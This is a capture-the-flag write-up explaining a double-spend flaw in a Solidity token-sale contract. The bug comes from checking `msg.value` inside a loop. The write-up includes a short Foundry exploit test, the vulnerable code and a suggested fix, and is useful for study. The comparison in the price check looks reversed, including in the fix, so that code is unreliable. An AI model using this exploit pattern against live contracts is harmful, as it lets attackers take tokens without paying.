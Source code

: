 # BuyMyTokens Solution
This challenge is another challenge that requires very little code to exploit. Let's look at the exploit, and dive into why it works:
```
function test_GetThisPassing_5() public {
    address hacker = address(0xBAD);
    

    vm.startPrank(hacker);
    uint256[] memory amounts = new uint256[](3);
    amounts[0] = 12;
    amounts[1] = 6;
    amounts[2] = 4;
    target.purchaseTokens{value: 1.2 ether}(amounts);
    vm.stopPrank();

    assertEq(token1.balanceOf(hacker), 12 ether);
    assertEq(token2.balanceOf(hacker), 6 ether);
    assertEq(token3.balanceOf(hacker), 4 ether);
}
```
All we need to exploit this smart contract is go through each price and divide it by the amount of ether we have available. But shouldn't the function revert if we attempt to double spend our ether?

If you look inside `purchaseTokens()` & `_checkPurchasingPower()`, you will see that we check if the `msg.value` is equal to the price * amount inside of the for loop:
```
function purchaseTokens(uint256[] memory _amounts) external payable {
    require(_amounts.length == 3, "There are 3 tokens");
    for(uint256 i; i < 3; i++) {
        MarqToken token = tokens[i];
        uint256 amount = _amounts[i];
        uint256 price = tokenPrices[token];
        // validation of price inside of a for loop with msg.value
        _checkPurchasingPower(msg.value, amount, price);
        token.mint(amount * 10**18);
        token.transfer(msg.sender, amount * 10**18);
    }
}

// this gets checked inside of the for loop with msg.value
function _checkPurchasingPower(uint256 _amountOfEtherAvailable, uint256 _amount, uint256 _price) internal {
    uint256 cost = _price * _amount;
    require(cost >= _amountOfEtherAvailable, "dont be that guy; pay for your tokens");
}
```
Because we do not keep track of how much of the `msg.value` should be allocated to the previous purchases, each iteration calculates the purchase price with "already spent" ether.
A better solution would involve a variable that keeps track of how much ether we have spent on previous purchases like so:
```
// added var
uint256 availableEther = msg.value;
for(uint256 i; i < 3; i++) {
    MarqToken token = tokens[i];
    uint256 amount = _amounts[i];
    uint256 price = tokenPrices[token];
    // fixed function call
    _checkPurchasingPower(availableEther, amount, price);
    token.mint(amount * 10**18);
    token.transfer(msg.sender, amount * 10**18);
    // keep track of spent ether
    availableEther -= price * amount;
}
```

If you ever see `msg.value` inside of a for loop, you should immediately be skeptical that the code functions properly.
